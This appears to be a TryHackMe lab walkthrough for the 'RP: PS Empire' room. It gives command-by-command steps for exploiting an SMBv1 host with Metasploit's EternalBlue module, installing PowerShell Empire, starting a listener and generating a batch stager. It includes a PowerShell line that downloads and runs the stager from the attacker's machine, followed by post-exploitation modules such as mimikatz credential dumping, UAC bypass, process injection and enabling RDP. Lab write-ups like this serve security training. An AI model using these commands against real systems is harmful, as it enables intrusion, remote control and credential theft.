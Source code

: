 # RP Post-Exploitation Empire

[RP: PS Empire](https://tryhackme.com/room/rppsempire)

## Summary

## Solutions

1. Deploy!

   1. Deploy and Recon

      1. `nmap -sV -vv -sC -A --script vuln <BOX_IP>`
      2. `CVE-2017-0143` -> A critical remote code execution vulnerability exists in Microsoft SMBv1 servers (ms17-010).

   2. Exploit

      1. `msfdb init`
      2. `msfconsole`
      3. `search CVE-2017-0143`
      4. `use exploit/windows/smb/ms17_010_eternalblue`
      5. `show options`
      6. `set RHOSTS <BOX_IP>`
      7. `run`

2. Install

    Note: this is done in the kali machine

   1. `cd /opt`
   2. `git clone https://github.com/BC-SECURITY/Empire.git`
   3. `cd Empire`
   4. `./setup/install.sh`
   5. `enter` when prompted for server negotiation password
   6. `./empire`

3. Listeners

   1. `help` -> `listeners`
   2. `uselistener http`
   3. `info`
   4. `WorkingHours`
   5. `DefaultProfile`
   6. `Port`
   7. `ServerVersion`
   8. `execute` -> `Listener successfully started!`
      1. `set Host <KALI_MACHINE_IP>:<CUSTOM_PORT>`
      2. `set Port <CUSTOM_PORT>`
   9. `listeners`

4. Stagers

   1. `back` -> `usestager` + double tab -> `windows/launcher_bat`
   2. `usestager windows/launcher_bat` -> `stager/windows/launcher_bat`
   3. `Listener`
   4. `set Listener http` -> `execute` -> `/tmp/launcher.bat`
   5. Copy and Execute batch script
      1. `exit`
      2. `cp /tmp/launcher.bat /var/www/html/launcher.bat`
      3. In Windows shell: `powershell -c "(new-object System.Net.WebClient).DownloadFile('https://<KALI_MACHINE_IP>/launcher.bat','C:\Users\Jon\Documents\launcher.bat')"`
      4. `cd /Users/Jon/Documents`
      5. `launcher.bat`

5. Agents and Post-Exploitation

   1. `agents`
   2. `help`
   3. `interact`
   4. `creds`
   5. `sleep`
   6. `kill`
   7. `searchmodule`
   8. `python/trollsploit/thunderstruck`
   9. `powershell/credentials/mimikatz/lsadump`
   10. `bypassuac`
   11. `recon`
   12. `powershell/management/psinject`
   13. `powershell/management/enable_rdp`
